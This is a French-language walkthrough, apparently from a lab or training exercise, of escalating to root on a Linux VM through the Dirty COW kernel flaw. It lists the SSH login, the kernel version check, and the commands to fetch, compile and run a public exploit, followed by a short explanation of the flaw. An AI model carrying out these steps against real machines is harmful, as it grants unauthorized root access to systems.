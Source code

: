 # Dirty COW

On se connecte en ssh a la machine avec les credentials:
```
$ ssh laurie@<IP>
330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
```

# Version KERNEL
On verifie la version du Kernel
```
$ uname -a
```

On se rend compte que la version de Kernel (3.2.0-91) est vulnerable a la faille Dirty COW.

Apres quelques recherches sur le net, on tombe sur ce site qui met a disposition un exploit pour Dirty COW.
```
https://www.exploit-db.com/exploits/40839
```

# Exploit
On copie le fichier ```exploit_dirty.c``` dans la VM.
```
$ scp exploit_dirty.c laurie@<IP>:/home/laurie 
```

On compile
```
$ gcc -pthread exploit_dirty.c -o dirty -lcrypt
```

On execute
```
$ ./dirty <NEW-PASSWORD>
```

On execute ```su firefart``` avec le mot de passe choisi.

On verifie l'uid
```
$ id
```

On se rend compte que nous sommes uid=0. BINGO!!!

On se deplace dans le dossier ```/root``` et avec un ```cat README``` on peut se rendre compte que nous sommes root sur la machine!


# Explication de la faille
La faille Dirty COW touche le noyau Linux a partir de la version 2.6.22 (Septembre 2007) jusqu'a la version 4.4.25 inclus. Elle a ete corrige depuis la version 4.4.26.
Elle exploite les fonctionnalites Copy-On-Write (COW) du noyau, d'ou son nom. C'est par ce biais que le pirate peut atteindre et ecrire sur des espaces memoire qui, normalement, ne sont qu'en lecture seule. 
De cette facon, il est possible de faire une elevation de privileges et devenir root.

Dirty COW a ete decouverte par Phil Oester.

```
Video Youtube
Lien: https://www.youtube.com/watch?v=kEsshExn7aE

Exploit Dirty COW
Lien: https://www.exploit-db.com/exploits/40839
```
